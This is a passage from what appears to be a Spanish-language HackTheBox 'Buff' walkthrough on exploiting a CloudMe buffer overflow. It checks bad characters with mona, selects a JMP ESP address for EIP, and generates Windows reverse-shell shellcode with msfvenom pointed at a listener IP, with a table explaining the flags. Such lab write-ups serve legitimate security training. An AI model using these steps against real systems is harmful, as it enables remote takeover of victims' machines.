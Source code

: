 Ahora con todos los datos, comparamos.

* ```!mona compare -f C:\Users\Cervant\Desktop\CloudMe\bytearray.bin -a 00A3D3D0```

![](/images/HTB/Buff/84-mona-compare.png)

Como se puede apreciar, recibimos un mensaje que dice "Unmodified" lo que indica que no existe ningún otro badchar para esta aplicación en particular.

---

### Obtener JMP ESP

Ahora toca el turno de obtener un valor válido para EIP, en otras palabras, deberemos encontrar una operación JMP ESP que nos permita acceder al shellcode que insertaremos.

* ```!mona jmp -r esp -cpb "\x00"```

![](/images/HTB/Buff/85-jmp-esp.png)

Nos quedaremos con la dirección ```69A5F0EF``` y la agregaremos al exploit.

---

### Generar shellcode

Por último, deberemos generar un shellcode que nos permita obtener una reverse shell.

* ```msfvenom -p windows/shell_reverse_tcp -a x86 LHOST=192.168.1.142 LPORT=443 EXITFUNC=thread -b '\x00' -f python -v shellcode```


| Parámetro   | Definición                                |
|-------------|-------------------------------------------|
| ```-p```    | Payload a utilizar                        |
| ```-a```    | Arquitectura (x64/x86)                    |
| ```-b```    | Badchars a omitir                         |
| ```-f```    | Formato en que se exportará el resultado  |
| ```-v```    | Definición de variable                    |
| ```LHOST``` | Host que recibirá la conexión (IP)        |
| ```LPORT``` | Puerto por el que se recibirá la conexión |
